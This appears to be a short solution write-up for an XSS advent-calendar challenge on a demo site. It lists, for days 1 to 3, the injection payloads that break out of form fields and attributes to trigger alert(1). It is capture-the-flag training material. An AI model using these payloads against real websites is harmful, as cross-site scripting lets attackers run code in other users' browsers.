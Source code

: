 # Merry XmaSS challenge 2021

Find the challenge here **https://xmass.compass-demo.com/**

The goal is to get an *alert(1)* popup by injecting code via the given forms in the XSS advent calendar.

**+++ Day 1 +++**  
https://xmass.compass-demo.com/level1
```
<script>alert(1)</script>
```
**+++ Day 2 +++**  
https://xmass.compass-demo.com/level2
```
a"><script>alert(1)</script
```

**+++ Day 3 +++**
https://xmass.compass-demo.com/level3
```
"><script>alert(1)</script>
```